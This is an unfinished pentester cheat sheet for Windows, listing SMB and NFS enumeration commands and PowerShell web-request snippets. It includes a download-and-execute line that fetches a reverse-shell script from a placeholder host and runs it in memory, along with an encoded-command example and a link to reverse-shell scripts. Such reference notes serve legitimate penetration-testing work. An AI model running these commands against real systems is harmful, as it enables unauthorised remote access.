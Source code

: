```yaml
---
title: Windows basic
description: Windows basic guide for pentester.
---
```


This article is currently being written.

# Windows basic

## Pentest Tools

### SMB

Enumerate shares and access :

```bash
$ crackmapexec smb example.com --shares
$ smbclient -L example.com
```

### NFS

Display shared folders by the NFS server :

```bash
$ showmount -e example.com
$ sudo mount -t nfs example.com:/shared_folder /mnt/folder
```

### Reverse shell

- [nishang/Shells](https://github.com/samratashok/nishang/tree/master/Shells)

## Powershell

### HTTP Request

```powershell
C:\> iwr http://example.com/

C:\> Invoke-WebRequest 'https://example.com/files/backup.zip' -OutFile C:\backup.zip
```

### Run a PowerShell expression

```powershell
C:\> IEX( IWR http://example.com/revshell.ps1 )

C:\> powershell.exe -EncodedCommand <base64>
```
